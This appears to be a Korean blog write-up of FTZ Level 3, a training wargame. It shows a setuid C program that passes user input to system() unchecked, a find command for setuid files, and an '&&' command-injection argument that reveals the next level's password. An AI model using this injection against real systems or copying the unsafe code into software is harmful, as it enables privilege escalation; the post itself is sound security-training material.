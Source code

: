 ```yaml
---
title: "[FTZ] Level3 풀이"
categories:
  - ftz
tags:
  - FTZ
toc: true
toc_sticky: true
toc_label: "Level3 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/ftz.png
---
```


💡 FTZ Level3 풀이
{: .notice--warning}


# 문제

계정 : level3/can you fly?

**hint**
```
다음 코드는 autodig의 소스이다.

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){

    char cmd[100];

    if( argc!=2 ){
        printf( "Auto Digger Version 0.9\n" );
        printf( "Usage : %s host\n", argv[0] );
        exit(0);
    }

    strcpy( cmd, "dig @" );
    strcat( cmd, argv[1] );
    strcat( cmd, " version.bind chaos txt");

    system( cmd );

}

이를 이용하여 level4의 권한을 얻어라.

more hints.
- 동시에 여러 명령어를 사용하려면?
- 문자열 형태로 명령어를 전달하려면?


```

# 풀이

setuid가 걸린 파일을 찾아 줍니다.

```sh
find / -perm -4000 -user level4 2>/dev/null
```

![image](https://user-images.githubusercontent.com/33647663/167292681-c7b958fa-496a-4217-bb97-cd400404bb06.png)

힌트에 나와있는 코드를 분석하면,
사용자의 입력값으로 다음과 같이 cmd 문자열이 완성됩니다.

```sh
dig @[입력 값] version.bind chaos txt
```

입력 값에 다음과 같이 작성하여 명령어가 여러개의 명령어가 수행되도록 해줍니다.

**입력 값**
```
/bin/autodig  '1.1.1.1&&my-pass&&'
```

![image](https://user-images.githubusercontent.com/33647663/167292814-985beb50-c657-4d63-91ca-50d1ef27b386.png)
